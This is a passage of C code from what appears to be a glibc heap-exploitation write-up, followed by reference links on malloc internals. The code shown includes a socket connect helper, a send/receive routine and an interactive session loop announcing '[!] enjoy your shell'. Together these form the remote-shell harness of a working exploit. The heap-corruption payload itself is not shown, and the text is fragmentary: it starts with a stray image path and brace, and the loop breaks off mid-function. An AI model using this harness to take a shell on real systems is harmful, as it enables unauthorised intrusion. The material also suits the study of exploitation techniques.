 }
 
void send_data(char *input, int len)
{
	char output[1024];
	int amt;
	write(sock, input, len);
	if (retrieve) {
		amt = read(sock, output, sizeof(output) - 1);
		output[amt] = '\0';
	}
}
 
int setsock(char *hostname, int port)
{
	int s;
	struct hostent *hent;
	struct sockaddr_in sa;
	struct in_addr ia;
 
	hent = gethostbyname(hostname);
	if (hent) {
		memcpy(&ia.s_addr, hent->h_addr, 4);
	}
	else if((ia.s_addr = inet_addr(hostname)) == INADDR_ANY) {
		handle_error("incorrect address !!!\n");
	}
 
	if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
		handle_error("socket failed !!!\n");
	}
 
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = ia.s_addr;
 
	if (connect(s, (struct sockaddr *)&sa, sizeof(sa)) == -1) {
		handle_error("connection failed !!!!\n");
	}
 
	return s;
}
 
void session(int sock)
{
	char buf[1024];
	int amt;
	fd_set fds;
 
	printf("[!] enjoy your shell \n");
	fputs(COLOR_SHELL, stderr);
 
	while (1) {
		FD_ZERO(&fds);
		FD_SET(sock, &fds);
		FD_SET(0, &fds);
 
		if (select(sock+1, &fds, NULL, NULL, NULL) == -1) {
			continue;
		}
 
		if (FD_ISSET(0, &fds)) {
			if ((amt = read(0, buf, sizeof(buf) - 1)) == 0) {
				handle_error("connection lost\n");
			}
			buf[amt] = '\0';
			write(sock, buf, strlen(buf));
		}
 

[sploitfun]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[goichon]: http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
[tavis]: https://bugs.chromium.org/p/project-zero/issues/detail?id=96&redir=1
[blackngel]: http://phrack.org/issues/67/8.html#article